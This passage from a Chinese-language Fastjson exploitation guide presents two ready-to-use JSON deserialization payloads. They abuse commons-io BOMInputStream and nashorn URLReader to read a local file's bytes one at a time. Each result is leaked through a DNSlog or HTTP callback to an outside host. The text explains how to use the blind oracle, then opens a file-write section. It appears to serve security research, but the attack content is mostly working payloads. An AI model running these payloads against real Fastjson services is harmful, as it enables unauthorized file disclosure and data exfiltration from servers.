 ### 4.2.2 blackhat2021-getBom()浅蓝师傅改版（几乎适配所有场景）

`payload43`：

```json
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String"{"$ref":"$.abc.BOM[0]"},"start":0,"end":0},"xxx":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://testhhh.okdplvnqdu.dgrh3.cn/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[1]}]},"zzz":{"$ref":"$.xxx.BOM[0]"}}
```

![image-20231021010244056](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021010244056.png)

极端场景：有一个接口，用`fastjson`解析了`json`，但不会反馈任何能够作为状态判断的标识，连异常报错的信息都没有。

那么此时该`payload`就可以派上用场了，**如果以上`poc`收到了`dnslog`响应，那么说明字节码比对失败**，也就是第一个字节的`int`值不等于我们填入的那个数字（比如这里的`98`，此时我们就得更改数字继续测试）；如果没收到，说明比对成功，继续测试即可。

### 4.2.3 blackhat2021-getBom() tyskill师傅改版（几乎适配所有场景）

`payload44`：

```json
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98,]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://192.168.161.4:8085/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"$ref":"$.abc.BOM[0]"}]},"xxx":{"$ref":"$.address.BOM[0]"}}
```

该`payload`是浅蓝师傅的`payload`的改版，主要区别在于这个是`dnslog`或者`http`服务有响应说明字节码比对成功，和浅蓝的那个是反着来的。

![image-20231021115924790](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021115924790.png)

![image-20231021115937822](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021115937822.png)

# 五、文件写入

## 5.1 commons-io 2.x（1.2.37<=version<=1.2.68）

### 5.1.1 最初公开的payload（只能在centos下利用）

